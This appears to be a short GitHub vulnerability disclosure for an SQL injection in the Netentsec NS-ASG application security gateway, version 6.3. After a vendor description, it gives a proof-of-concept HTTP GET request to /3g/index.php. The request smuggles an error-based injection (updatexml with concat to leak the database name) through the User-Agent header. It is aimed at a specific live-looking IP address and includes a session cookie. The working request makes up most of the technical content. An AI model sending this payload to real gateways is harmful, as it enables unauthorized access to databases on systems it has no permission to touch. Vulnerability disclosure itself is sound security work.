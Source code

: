 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /3g/index.php


poc：
```
GET /3g/index.php HTTP/1.1
Host: 1.85.53.53
Cookie: PHPSESSID=7a5a6c0f4ad9411484918d9ca24afbba
User-Agent: 1' , updatexml(1,concat(0x7e,(select database())),1),'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

<img width="721" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/1bf93242-b94d-4508-ae23-24bb4e217117">
